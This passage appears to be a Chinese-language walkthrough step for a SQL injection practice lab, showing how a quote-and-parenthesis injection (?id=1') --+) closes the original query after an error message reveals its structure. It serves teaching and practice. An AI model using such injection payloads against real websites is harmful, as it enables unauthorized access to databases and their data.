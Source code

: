 单引号）

首先注入 

```
?id=1'
报错
... syntax to use near ''1'') LIMIT 0,1' at line 1
可以猜测到
原查询语句为 ...where id =('what')
```

 所以注入

```
?id=1') --+ 
其他步骤与Less1 相同
```

